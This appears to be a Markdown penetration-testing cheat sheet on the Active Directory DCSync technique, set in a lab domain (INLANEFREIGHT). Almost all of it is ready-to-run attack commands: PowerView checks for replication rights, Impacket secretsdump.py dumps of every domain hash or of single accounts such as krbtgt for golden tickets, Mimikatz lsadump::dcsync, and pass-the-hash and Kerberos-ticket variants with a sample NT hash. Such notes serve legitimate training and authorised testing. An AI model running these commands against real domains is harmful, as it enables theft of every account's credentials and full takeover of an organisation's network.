

#ad #dcsync #secretsdump #ntds

# DCSync

Abuse replication rights (DS-Replication-Get-Changes) to pull NTDS hashes. Related: [dacl-attacks](dacl-attacks.md) · [kerberos-tickets](kerberos-tickets.md) · [exploits](exploits.md)

## DCSync Flow



> [!WARNING]
> DCSync impersonates a Domain Controller to pull replication data — it requires `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` rights (held by Domain Admins/Enterprise Admins by default, or granted via [dacl-attacks](dacl-attacks.md)). It is a well-known, heavily monitored technique (Event ID 4662 with the replication GUIDs) — treat it as a loud, late-stage action.

## Check Replication Rights
```powershell
$sid = "S-1-5-21-3842939050-3880317879-2865463114-1164"
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights, SecurityIdentifier, ObjectAceType | fl
```
Check a user's replication rights (PowerView).

## Perform DCSync
```bash
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```
DCSync all domain hashes (Impacket).

```bash
secretsdump.py -just-dc-user INLANEFREIGHT/krbtgt INLANEFREIGHT/adunn@172.16.5.5
```
DCSync a single account (e.g. krbtgt for golden tickets). See [kerberos-tickets](kerberos-tickets.md).

```cmd
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```
DCSync a user (Mimikatz).

## With a Machine-Account Hash / Ticket
```bash
secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3b435b51404eeaad3b435b51404ee:313b6f423cd1ee07e91315b4919fb4ba
```
DCSync using a captured machine-account hash.

```bash
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
DCSync using a Kerberos ticket (KRB5CCNAME set). See [exploits](exploits.md).
